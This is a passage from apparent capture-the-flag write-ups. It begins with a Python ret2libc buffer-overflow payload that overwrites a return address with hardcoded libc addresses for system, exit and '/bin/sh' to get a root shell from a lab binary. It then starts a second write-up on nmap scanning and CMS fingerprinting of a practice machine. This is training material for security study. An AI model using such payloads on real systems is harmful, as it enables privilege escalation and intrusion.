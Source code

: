 and our exploit is : 

```python
import struct 

buf = "A" * 52
libc =  0xb7e19000
system = struct.pack('<I' , libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0) 
binsh = struct.pack('<I', libc + 0x0015ba0b ) 
payload = buf + system + exit + binsh
print payload

```

Then we can run the program 
```
./rop (python exploit.py)
```
and we will get our root shell back


# Linux : Writeup : 10.10.10.138 : Easy

Nmap Reuslts :
```bash
Nmap scan report for 10.10.10.138
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds
```

Now lets go to the website and ennumerate we are greeted to a baisc page made out of vi as they said but looking to our nmap scan annd also the robots.txt file we can see that there is a writeup/ directory which if you check the page source it gives us this information.

```js
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

And now searching the CMS Made Simple and this seems to be the version in 2019 so searching the CMS Made Simple 2019 exploit on google would redirect us to this exploit. 
